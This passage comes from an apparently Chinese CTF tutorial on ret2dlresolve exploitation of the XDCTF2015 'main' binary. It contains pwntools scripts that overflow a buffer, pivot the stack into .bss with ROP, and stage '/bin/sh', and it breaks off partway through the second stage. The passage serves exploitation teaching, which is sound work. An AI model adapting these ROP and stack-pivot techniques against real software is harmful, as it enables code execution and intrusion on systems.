 ```python
  rop.read(0, base_stage, 100)
  ### stack pivoting, set esp = base_stage
  rop.migrate(base_stage) # 通过 pop ebp;ret和leave;ret，使esp指向0x804a840(0x804a83c+4)
  '''
  # print rop.dump()
  ...             ...
  0x0070:        0x80483a0 read(0, 0x804a840, 100)
  0x0074:        0x8048376 <adjust @0x84> add esp, 8; pop ebx; ret
  0x0078:              0x0 arg0
  0x007c:        0x804a840 arg1
  0x0080:             0x64 arg2
  0x0084:        0x804861b pop ebp; ret // ret => pop eip
  0x0088:        0x804a83c
  0x008c:        0x8048458 leave; ret
  '''

  r.sendline(rop.chain())

  rop = ROP('./main')
  sh = "/bin/sh"
  rop.write(1, base_stage + 80, len(sh))  # 将'bin/sh'输出
  rop.raw('a' * (80 - len(rop.chain())))
  rop.raw(sh)
  rop.raw('a' * (100 - len(rop.chain())))

  r.sendline(rop.chain())
  r.recv()
```

![Alt](img/wiki-AdvancedRop3.png)

#### STAGE2

利用 `plt[0]` 中的相关指令，即 `push linkmap` 以及跳转到 dl_resolve 函数中解析的指令。此外，我们还得单独提供一个 write 重定位项在 plt 表中的偏移。

```python
  from pwn import *
  elf = ELF('main')
  r = process('./main')
  rop = ROP('./main')

  offset = 112
  bss_addr = elf.bss()

  r.recvuntil('Welcome to XDCTF2015~!\n')

  stack_size = 0x800
  base_stage = bss_addr + stack_size
  rop.raw('a' * offset)
  rop.read(0, base_stage, 100)
  rop.migrate(base_stage)
  r.sendline(rop.chain())

  write_index = (elf.plt['write'] - plt0) / 16 - 1
  write_index *= 8
```